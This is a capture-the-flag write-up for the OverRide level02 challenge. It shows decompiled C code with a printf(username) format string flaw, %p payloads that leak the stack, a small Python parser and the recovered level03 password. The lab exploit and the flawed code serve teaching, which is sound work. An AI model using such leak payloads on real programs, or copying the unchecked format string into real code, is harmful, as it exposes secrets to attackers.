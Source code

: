 ## level02 (format string vulnerability)
```clike=
int main()
{
    FILE *open_passfile;
    int read_pass_status;
    char username[100]; // 0x70 - 0xc
    char pass_file_content[48]; // 0xa0 - 0x70
    char pass[112]; // 0x110 - 0xa0
    
    memset(username, 0, 12);
    memset(pass_file_content, 0, 5);
    memset(pass, 0, 12);
    
    open_passfile = fopen("/home/users/level03/", "r");
    if (!open_passfile)
    {
        fwrite("ERROR: failed to open password file", 1, 36, stderr);
        exit(1);
    }
    
    read_pass_status = fread(pass_file_content, 1, 41, open_passfile);
    pass_file_content[strcspn(pass_file_content, "\n")] = 0;
    if (!read_pass_status)
    {
        frwite("ERROR: failed to read password file", 1, 36, stderr);
        exit(1);
    }
    fclose(open_passfile);
    
    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    printf("--[ Username:");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = 0;
    printf(" --[ Password:");
    fgets(pass, 100, stdin);
    pass[strcspn(pass, "\n")] = 0;
    
    puts("*****************************************");
    if (strncmp(pass_file_content, pass, 41) == 0)
    {
        printf("Greetings, %s!", username);
        system("/bin/sh");
        return 0;
    }
    else
    {
        printf(username);
        puts("does not have access!");
        exit(1);
    }
}
```

Looking from the source, it looks like a buffer overflow may not happen on username of pass since fgets is used to read characters equals to the buffer size, but we can still try to confirm.

```
# create test input
python -c "print 'B' * 1010 + '\n' + 'A' * 1010" > /tmp/level2

# run program
./level02 < /tmp/level2
```

As we can see, the program ran without faults
```
level02@OverRide:~$ ./level02  < /tmp/level2
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB does not have access!
level02@OverRide:~$
```

I tried thinking of manipulating the user and pass input to just a null byte, but it still compares 41 characters of the open passfile.  Since strcspn is new, I went to the manual to find any security warnings; no warings.

However, I noticed in the last few lines `printf(username);` was called. This was a direct call to a user input, which leaves us with a **string format vulnerability**.

To verify this, I ran the program with some new input to test and we have a segfault.
```
# create test input
python -c "print '%3\$s' '\n' + 'AAAA\n'" > /tmp/level2

# run program
./level02 < /tmp/level2
```
It could be that its trying to derefrence an invalid address when I supplied the `%s` parameter, so I decided to just print out a series on `%p`s to get a look at the stack state at this point without the need to derefrence. As we can see, we have the stack contents displayed. And since the contents of the password from the file are pushed to the stack, we should be able to read them eventually. What we are seeing here is the function arguments that are pushed to the stack. **It does not show the `push` commands in the disassembly, it is pushed after we call the function by `lib64` from libc since this program is compiled for 64-bit CPUs, instead, we just move them to specific registers in the program.**

```
level02@OverRide:~$ python -c "print '%p %p %p %p %p %p %p' '\n' + 'A\n'" > /tmp/level2
level02@OverRide:~$ ./level02 < /tmp/level2
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 does not have access!
level02@OverRide:~$
```
From the surface here, we see some addresses and their contents. Hence, I made a script to automate the parsing of the stack for a number of times.

```
cat << EOF > /tmp/parse.py
# parse.py
import sys

# read input
input_string = sys.stdin.read()

# split string based on newline
lines = input_string.split('\n')

# get the last string
last_line = lines[len(lines) - 2]

# split by spaces
tokens = last_line.split(' ')
index = 0
for token in tokens:
    index += 1
    if token == "does" :
        break
    print(str(index) + ' - ' + token)
EOF
```

And the script is done, now to run it with our input and we get the results below.

```
level02@OverRide:~$ python -c "print '%p ' * 30 + '\n' + 'BBBBBBBB'" > /tmp/level2
level02@OverRide:~$ ./level02 < /tmp/level2 | python /tmp/parse.py
1 - 0x7fffffffe500
2 - (nil)
3 - 0x42
4 - 0x2a2a2a2a2a2a2a2a
5 - 0x2a2a2a2a2a2a2a2a
6 - 0x7fffffffe6f8
7 - 0x1f7ff9a08
8 - 0x4242424242424242
9 - (nil)
10 - (nil)
11 - (nil)
12 - (nil)
13 - (nil)
14 - (nil)
15 - (nil)
16 - (nil)
17 - (nil)
18 - (nil)
19 - (nil)
20 - 0x100000000
21 - (nil)
22 - 0x756e505234376848
23 - 0x45414a3561733951
24 - 0x377a7143574e6758
25 - 0x354a35686e475873
26 - 0x48336750664b394d
27 - (nil)
28 - 0x7025207025207025
29 - 0x2520702520702520
30 - 0x2070252070252070
31 -
```

Now to break it down, we first need to get some visuals on the stack
![image](https://hackmd.io/_uploads/HJ6Xnn5Lp.png)

We are tring to read the stuff in `passfile_content` and from the input we gave, the only input which is identifyable is the contents of `pass`. Which means, **once we see the contents of `pass` (which is 'BBBBBBBB'), we will need to go down the stack `0x70 = 112 (base10)` bytes to reach `passfile_content`**. 

If we look at the output, we can see lines 1 to 7 contain values that are **pushed by other function calls**, which serve no purpose. At line 8 however, we can see BBBBBBBB, which is the start of our `pass` variable. Going back to earlier, we will need to go down 112 bytes. Since `%p` traverses 8 bytes at a time, and `112 / 8 = 14`, our contents of `passfile_content` is at line `8 + 14 = 22`.

I used [this tool online](https://onlinehextools.com/convert-hex-to-string) to convert the data from hex to string, and reversed it for little endianess and I got the following string `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

I used `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` as password for level03 and it worked

![image](https://hackmd.io/_uploads/Hk-sJaqUp.png)

